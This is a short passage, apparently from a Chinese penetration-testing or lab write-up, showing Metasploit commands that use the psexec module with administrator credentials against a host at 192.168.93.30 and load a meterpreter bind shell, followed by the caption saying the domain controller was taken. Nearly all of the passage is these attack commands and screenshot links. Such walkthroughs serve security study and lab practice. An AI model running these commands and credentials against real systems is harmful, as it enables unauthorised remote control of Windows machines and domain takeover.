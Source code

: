 ```plain
use exploit/windows/smb/psexec
set rhosts 192.168.93.30
set SMBUser administrator
set SMBPass Whoami2021
set payload windows/meterpreter/bind_tcp
set rhost 192.168.93.30
run
```

[![](assets/1708094050-51670b2887786b246f7600b8bd9ae0e1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230621152146-47e0f308-1004-1.png)

拿下域控

[![](assets/1708094050-b805788ed809197d2b42429d7dc2fa3f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230621152202-516b1386-1004-1.png)
